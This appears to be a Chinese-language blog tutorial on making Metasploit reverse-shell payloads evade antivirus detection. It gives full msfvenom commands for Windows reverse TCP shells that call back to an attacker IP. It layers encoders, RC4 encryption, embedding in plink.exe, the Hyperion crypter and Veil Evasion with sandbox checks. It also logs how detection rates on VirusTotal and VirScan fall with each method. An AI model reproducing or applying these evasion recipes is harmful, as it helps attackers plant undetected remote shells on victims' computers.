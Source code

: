 ```yaml
---
title: Payload免杀
categories:
- tools
tags:
- tools
---
```

Payload免杀
===
首先放两个在线杀毒检测的站点。
- https://www.virustotal.com/gui/home/upload
- https://www.virscan.org/

上一篇[msfvenom-生成攻击载荷](https://whale3070.github.io/tools/2019/03/01/x/)，我们已经学习了如何生成payload。现在看看如何防止被杀软杀掉生成的payload。

## 使用msf对payload进行编码

### 不使用任何编码
```
msfvenom -p windows/shell_reverse_tcp LHOST=kali'sIP LPORT=1234 -f exe -o payload.exe
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/1.PNG)
virscan 49款杀软有28款报告是恶意文件。

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/2.PNG)
virustotal 68款有55款报告是恶意文件。

可以看出virustotal从检出率来看更胜一筹。

### 使用编码模块shikata_ga_nai
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1234 -f exe -e x86/shikata_ga_nai -i 9 -o payload.exe
---
添加参数： -e x86/shikata_ga_nai -i 9 
```
virscan 49款杀软有27款报告是恶意文件。
virustotal 68款有54款报告是恶意文件。

可以看出比上一次检出少了一款杀软，但也没有好太多。

### 使用编码模块--encrypt
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1234 -f exe --encrypt rc4 --encrypt-key whale3070 -o shell_reverse.exe
添加参数：--encrypt rc4 --encrypt-key whale3070 
```
virscan 49款杀软有30款报告是恶意文件。
virustotal 71款有58款报告是恶意文件。

### 将载荷放入正常文件
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o payload.exe
---
添加参数：-e x86/shikata_ga_nai -i 9 
-x /usr/share/windows-binaries/plink.exe
```
virscan 49款杀软有23款报告是恶意文件。
virustotal 68款有46款报告是恶意文件。

### 使用软件保护程序加密载荷

Hyperion
```
git clone https://github.com/veil-Framework/veil-Evasion.git
cd Veil-Evasion/tools/hyperion

#编译
#i686-w64-mingw32-c++ Src/Crypter/*.cpp -o hyperion.exe
#i686-w64-mingw32-g++ Src/Crypter/*.c -o hyperion.exe
i686-w64-mingw32-gcc -ISrc/Payloads/Aes/c Src/Crypter/*.c Src/Payloads/Aes/c/*.c -o hyperion.exe

#将该程序防止在这个目录下，方便以后查找
cp hyperion.exe /usr/share/windows-binaries/

##添加动态链接库
locate libgcc_s_sjlj-1.dll
cp /usr/lib/gcc/i686-w64-mingw32/8.3-win32/libgcc_s_sjlj-1.dll .
locate libstdc++-6.dll
cp /usr/lib/gcc/x86_64-w64-mingw32/8.3-win32/libstdc++-6.dll .

#运行该程序
apt-get -y install wine
apt-get -y install wine32

wine hyperion.exe payload.exe encoded.exe
#payload使用的不使用任何编码生成的payload.exe
```
virscan 49款杀软有 16 款报告是恶意文件。
virustotal 72款有 48 款报告是恶意文件。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/4.PNG)

没有起到太大效果，但还是有效果的。

### 使用自定义/不常用的工具和载荷
通过搜索源代码，然后编译的方式，可以编译更加不容易被杀软检测到标志位的载荷。
因为杀软通常会针对流行的msfvenom找出识别模式，所以使用少见的工具或者手动编译就可以减少被识别出的几率。

### veil免杀
```
`veil -t Evasion -p 34 --ordnance-payload rev_tcp --ip 192.168.1.5 --port 8677 -o chrisout -c hostname=thegrid processors=2`
```
该命令会生成一个可执行的载荷。设置了免杀载荷编号为34。使用军械库模块生成反弹tcp的shellcode，反弹连接的IP、端口如命令所示。生成的可执行程序名称为chrisout，并且执行了两项检查，载荷被设置为目标机器的主机名为thegrid，系统的进程至少是2个。

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/5.PNG)

virscan 49款杀软有 2 款报告是恶意文件。
virustotal 71款有 8 款报告是恶意文件。

![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/15.PNG)

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-26-11/14.PNG)


## 参考资料
- [https://rafaelhart.com/2019/10/installing-hyperion-on-kali-linux/](https://rafaelhart.com/2019/10/installing-hyperion-on-kali-linux/)
- [https://github.com/nullsecuritynet/tools/tree/master/binary/hyperion/release](https://github.com/nullsecuritynet/tools/tree/master/binary/hyperion/release)
- [https://null-byte.wonderhowto.com/how-to/hack-like-pro-evade-av-detection-with-veil-evasion-0162363/](https://null-byte.wonderhowto.com/how-to/hack-like-pro-evade-av-detection-with-veil-evasion-0162363/)
- [https://www.veil-framework.com/veil-tutorial/](https://www.veil-framework.com/veil-tutorial/)
- [https://www.veil-framework.com/veil-command-line-usage/](https://www.veil-framework.com/veil-command-line-usage/)